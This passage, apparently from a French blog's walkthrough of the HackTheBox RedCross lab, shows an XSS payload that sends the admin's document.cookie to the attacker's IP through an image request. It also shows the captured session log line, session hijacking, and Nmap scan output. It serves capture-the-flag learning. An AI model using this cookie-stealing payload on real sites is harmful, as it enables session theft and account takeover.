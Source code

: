 ![HackTheBox CTF RedCross PhantomJS user-agent](https://raw.githubusercontent.com/devl00p/blog/master/images/htb/redcross/redcross_phantomjs.png)

On voit ici qu'une action humaine est émulée via l'emploi du navigateur headless PhantomJS.  

L'objectif est maintenant d'obtenir le cookie de l'administrateur. Pour cela on va forger une URL contenant le cookie et l'injecter dans le DOM sous forme d'une image :  

```html
<script>var img = document.createElement("img"); img.src = "http://10.10.12.5/?" + encodeURI(document.cookie); document.body.appendChild(img);</script>
```

Groovy :)

```plain
10.10.10.113 - "GET /PHPSESSID=cg9l76l7f755ki5v0iufj1vob5;%20LANG=EN_US;%20SINCE=1546424177;%20LIMIT=10;%20DOMAIN=admin HTTP/1.1" 404 -
```

Une fois le cookie injecté dans notre navigateur (par exemple avec *Cookie Manager* sous Firefox) on peut accéder au *control panel* qui propose une gestion utilisateurs :  

![HackTheBox RedCross CTF user management interface](https://raw.githubusercontent.com/devl00p/blog/master/images/htb/redcross/redcross_user.png)

ainsi qu'un script de whitelisting d'IPs... donc certainement une utilisation de iptables... dont probablement une faille d'injection de commande ? A voir.  

![HackTheBox RedCross CTF IP management interface](https://raw.githubusercontent.com/devl00p/blog/master/images/htb/redcross/redcross_firewall.png)

Sésame, ouvre-toi
-----------------

J'ai commencé par soumettre mon IP sur ce second script puis j'ai relancé un scan Nmap qui a détecté de nouveaux ports :  

```plain
21/tcp   open  ftp         vsftpd 2.0.8 or later
|_banner: 220 Welcome to RedCross FTP service.
1025/tcp open  NFS-or-IIS?
5432/tcp open  postgresql  PostgreSQL DB 9.6.0 or later
| fingerprint-strings:
|   SMBProgNeg:
|     SFATAL
|     VFATAL
|     C0A000
|     Munsupported frontend protocol 65363.19778: server supports 1.0 to 3.0
|     Fpostmaster.c
|     L2030
|_    RProcessStartupPacket
| ssl-cert: Subject: commonName=redcross.redcross.htb
| Subject Alternative Name: DNS:redcross.redcross.htb
| Not valid before: 2018-06-03T19:13:20
|_Not valid after:  2028-05-31T19:13:20
| ssl-dh-params:
|   VULNERABLE:
|   Diffie-Hellman Key Exchange Insufficient Group Strength
|     State: VULNERABLE
|       Transport Layer Security (TLS) services that use Diffie-Hellman groups
|       of insufficient strength, especially those using one of a few commonly
|       shared groups, may be susceptible to passive eavesdropping attacks.
|     Check results:
|       WEAK DH GROUP 1
|             Cipher Suite: TLS_DHE_RSA_WITH_AES_128_CBC_SHA
|             Modulus Type: Safe prime
|             Modulus Source: Unknown/Custom-generated
|             Modulus Length: 1024
|             Generator Length: 8
|             Public Key Length: 1024
```